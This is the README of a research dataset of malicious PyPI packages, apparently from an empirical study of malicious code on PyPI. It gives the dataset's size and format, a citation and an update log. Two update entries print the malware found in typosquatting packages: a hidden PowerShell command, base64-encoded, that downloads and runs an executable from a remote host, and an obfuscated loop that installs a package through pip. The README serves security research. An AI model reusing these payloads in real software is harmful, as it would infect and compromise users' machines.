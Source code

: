 ## Dataset Size

This data set includes about 4,773 versions of the source code of 4,263 malicious packages.

## Dataset Format

`package name -> version -> source code zip file.`

Example:
`ython-binance -> 0.1 -> ython-binance-0.1.tar.gz`

## False positive

We have manually checked all collected malicious packages and have now removed all false positives.

## Cite

This dataset is the work of the ASE 2023 paper "An Empirical Study of Malicious Code In PyPI Ecosystem"

```
@misc{guo2023empirical,
      title={An Empirical Study of Malicious Code In PyPI Ecosystem}, 
      author={Wenbo Guo and Zhengzi Xu and Chengwei Liu and Cheng Huang and Yong Fang and Yang Liu},
      year={2023},
      eprint={2309.11021},
      archivePrefix={arXiv},
      primaryClass={cs.SE}
}
```

## Update

### 31 Mar. 2024 
Add new 431 malicious packages using typoSquatting attack method.

ref: [https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ](https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ)


### 04 Apr. 2024 
Add new 45 malicious packages using typoSquatting attack method.


### 16 Apr. 2024 
Add new 56 malicious packages using typoSquatting attack method. 

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    # www.esquelesquad.rip
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


### 21 Apr. 2024 
Add new 34 malicious packages using typoSquatting attack method.


### 1 May. 2024 
Add new 1154 malicious packages using typoSquatting attack method.

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


```python
...
while 馬女水女口目人馬鳥月水馬山山馬鸟:
  if 108363 == 馬女水女口目人馬鳥月水馬山山馬鸟:
    import pip
    pip.main([''.join(map(getattr(__builtins__, oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), (7 << 4) + 3, (7 << 4) + (1 << 2), (3 << 5) + 1, (((7 << 2) - 1) << 2), (((7 << 2) - 1) << 2)])), ''.join(map(getattr(__builtins__,
              oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [(7 << 4), (((1 << 4) - 1) << 3) + 1, (7 << 4), ((((3 << 2) + 1)) << 3) + 1, (((1 << 4) - 1) << 3) - 1, ((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), ((((3 << 2) + 1)) << 2) - 1, (((3 << 3) + 1) << 1)]))])

    馬女水女口目人馬鳥月水馬山山馬鸟 = (896*(494 & 86)+104//648-(885 | 515+277) | 885 << 141 << 580 >> (593 | 648) & ~87) >> 9523
  elif 馬女水女口目人馬鳥月水馬山山馬鸟 == 286625773:
...
```

### 2 May. 2024 
Add new 181 malicious packages.


### Other Dataset

- GitHub Advisory Database https://github.com/advisories?query=type%3Amalware (NPM).
- https://dasfreak.github.io/Backstabbers-Knife-Collection/ (PyPI and npm), by Marc Ohm et al.
- https://github.com/datadog/malicious-software-packages-dataset (PyPI), by Datadog
